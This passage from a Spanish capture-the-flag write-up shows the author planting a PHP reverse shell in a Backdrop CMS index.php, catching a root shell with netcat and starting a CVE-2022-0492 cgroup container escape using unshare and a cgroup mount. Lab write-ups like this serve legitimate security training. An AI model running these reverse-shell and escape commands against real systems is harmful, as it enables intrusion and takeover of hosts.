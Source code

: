 ```console
www-data@90c7f522b842:/var/www/html/backdrop$ ls            
LICENSE.txt  README.md  core  files  index.php  layouts  modules  robots.txt  settings.php  sites  themes
www-data@90c7f522b842:/var/www/html/backdrop$ cmd="bash -c 'bash -i >& /dev/tcp/10.10.14.62/5555 0>&1'"
www-data@90c7f522b842:/var/www/html/backdrop$ echo -e "<?php exec(\"$cmd\"); ?>" > index.php
www-data@90c7f522b842:/var/www/html/backdrop$ cat index.php 
<?php exec("bash -c 'bash -i >& /dev/tcp/10.10.14.62/5555 0>&1'"); ?>
www-data@90c7f522b842:/var/www/html/backdrop$ 

───────────────────────────────────────────────────────────────────────────────────────────────────────────
❯ nc -lvnp 5555
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::5555
Ncat: Listening on 0.0.0.0:5555
Ncat: Connection from 10.10.11.167.
Ncat: Connection from 10.10.11.167:36566.
bash: cannot set terminal process group (21608): Inappropriate ioctl for device
bash: no job control in this shell
root@90c7f522b842:/var/www/html/backdrop# 
```

Ya como `root` en el contenedor, investigando **como escapar de contenedores** encontramos una vulnerabilidad muy interesante de este año [CVE-2022-0492](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0492)

En mi caso me costó entenderlo a la perfección ya que es la primera vez que toco el tema de **Contenedores y monturas**

En resumen, cuando estamos en un contenedor hacemos uso de **cgroups**, lo cuál es una característica de Linux que usa **Docker** para aislar sus contenedores y los recursos usados por sus respectivos procesos. Los **cgroups** se administran en un sistema de archivos montado. Estos **cgroups** se dividen en _subsistemas_, donde cada uno de estos configura el acceso a un recurso direfente (memory cgroup, device cgroup, etc). A cada **cgroup** creado puedes agregarle procesos, etc.

Lo importante aquí es el archivo _release_agent_ de **cgroups**, el cúal plos administradores pueden configurar un programa para ejecutarse al terminar un proceso en el respectivo **cgroup**. Además, para habilitar esta característica debemos activar el archivo _notify\_on\_release_ 

Para modificar estos archivos necesitamos un **cgroup** com permisos de escritura, como nos encontramos en un contenedor no lo tenemos ya que necesitamos la **capability CAP_SYS_ADMIN**

```console
root@90c7f522b842:/# set `cat /proc/$$/status | grep "CapEff:"`; capsh --decode=$2 | grep sys_admin
root@90c7f522b842:/#
```

Para solucionar esto, como contenedores usamos `unshare` y **creamos un nuevo espacio de nombres de usuario y cgroup** para tener la capability y poder montar un sistema de archivos **cgroup (cgroupfs)**

```console
root@90c7f522b842:/# unshare -UrmC bash
root@90c7f522b842:/# mkdir /tmp/mountest && mount -t cgroup -o rdma cgroup /tmp/mountest && mkdir /tmp/mountest/x
```
